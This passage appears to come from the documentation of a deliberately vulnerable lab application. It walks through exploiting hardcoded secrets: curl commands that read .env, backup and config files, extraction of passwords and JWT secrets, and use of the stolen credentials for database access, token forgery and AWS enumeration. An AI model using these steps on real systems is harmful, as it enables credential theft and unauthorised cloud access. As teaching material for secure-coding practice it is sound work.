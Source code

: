 
#### 3. Backup File Enumeration
```bash
# List available backups
curl "http://localhost:5000/api/hardcodedsecrets/backup/vuln"

# Access specific backup files
curl "http://localhost:5000/api/hardcodedsecrets/backup/vuln?backupName=secrets_backup.txt"
curl "http://localhost:5000/api/hardcodedsecrets/backup/vuln?backupName=.env.backup"
curl "http://localhost:5000/api/hardcodedsecrets/backup/vuln?backupName=config_backup.json"
```

#### 4. Source Code Access
```bash
# Access source files
curl "http://localhost:5000/api/hardcodedsecrets/source/vuln?file=appsettings.json"
curl "http://localhost:5000/api/hardcodedsecrets/source/vuln?file=.env"
curl "http://localhost:5000/api/hardcodedsecrets/source/vuln?file=docker-compose.yml"
```

### Attack Progression

#### Phase 1: Discovery
1. Scan for configuration endpoints (`/config`, `/debug`, `/info`)
2. Look for backup or source code endpoints
3. Check for environment variable exposure
4. Search for debug information

#### Phase 2: Secret Extraction
```bash
# Automated secret extraction
curl -s "http://localhost:5000/api/hardcodedsecrets/config/vuln" | \
  jq -r '.database.password, .jwt.secret, .external.apiKey'
```

#### Phase 3: Secret Utilization
```bash
# Use extracted database credentials
mysql -h localhost -u admin -p'P@ssw0rd123!' myapp

# Create JWT tokens with extracted secret
python create_jwt.py --secret "MyVerySecretJWTKey2024!" --user admin

# Access external APIs with extracted keys
curl -H "Authorization: Bearer sk-1234567890abcdef" "https://api.external.com/sensitive-data"
```

#### Phase 4: Lateral Movement
```bash
# Use AWS credentials for cloud access
aws configure set aws_access_key_id AKIAIOSFODNN7EXAMPLE
aws configure set aws_secret_access_key wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
aws s3 ls  # List all S3 buckets
aws ec2 describe-instances  # Enumerate EC2 instances
```
